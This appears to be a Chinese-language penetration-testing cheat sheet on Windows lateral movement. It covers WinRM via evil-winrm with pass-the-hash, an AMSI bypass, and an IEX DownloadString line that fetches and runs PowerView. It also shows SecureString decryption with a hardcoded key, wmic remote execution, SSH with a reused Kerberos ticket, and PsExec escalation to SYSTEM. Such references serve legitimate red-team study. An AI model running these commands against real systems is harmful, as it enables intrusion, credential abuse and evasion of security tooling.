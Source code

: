 ```ps1
$aesKey = (49, 222, 253, 86, 26, 137, 92, 43, 29, 200, 17, 203, 88, 97, 39, 38, 60, 119, 46, 44, 219, 179, 13, 194, 191, 199, 78, 10, 4, 40, 87, 159)
$secureObject = ConvertTo-SecureString -String "76492d11167[SNIP]MwA4AGEAYwA1AGMAZgA=" -Key $aesKey
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```

# WinRM协议

**要求**：

* 端口**5985**或**5986**开放。
* 默认端点是**/wsman**

如果系统上禁用了WinRM，可以使用以下命令启用它：`winrm quickconfig`

在Linux上通过[Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)与WinRM交互是最简单的方法

```powershell
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
evil-winrm -i 10.0.0.20 -u username -H HASH
evil-winrm -i 10.0.0.20 -u username -p password -r domain.local

*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```

## WMI协议

```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```

## SSH协议

:警告：你不能将哈希值传递给SSH，但你可以使用Kerberos票证连接（通过传递哈希值可以获得！）

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```

## 其他方法

### PsExec - Sysinternal

从Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PS C:\> PsExec.exe  \\srv01.domain.local -u DOMAIN\username -p password cmd.exe

# 切换管理员用户为NT Authority/System
PS C:\> PsExec.exe  \\srv01.domain.local -u DOMAIN\username -p password cmd.exe -s 
```


[DC01]: PS>